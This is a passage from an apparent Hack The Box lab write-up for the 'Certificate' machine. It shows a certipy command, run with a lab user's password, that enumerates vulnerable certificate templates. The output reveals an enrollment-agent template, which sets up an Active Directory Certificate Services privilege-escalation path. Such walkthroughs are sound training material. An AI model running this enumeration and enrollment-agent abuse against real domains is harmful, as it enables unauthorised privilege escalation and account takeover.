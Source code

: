 Lion.SK is a member of the Domain CRA Managers group and members of this group can issue and revoke certificates for domain users. Essentially, this means that members of this group are Enrollment Agents and are authorised to request certificates on behalf of other users.

![alt text](/assets/img/2025-10-05-htb-certificate/lion-sk.png)

I'll check for certificates that Lion.SK can enroll for using certipy.

```
certipy find \
        -u Lion.SK@certificate.htb -p '!QAZ2wsx' \
        -dc-ip 10.129.249.89 -text \
        -enabled -vulnerable -stdout

Certificate Templates
  0
    Template Name                       : Delegated-CRA
    Display Name                        : Delegated-CRA
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-05T19:52:09+00:00
    Template Last Modified              : 2024-11-05T19:52:10+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
```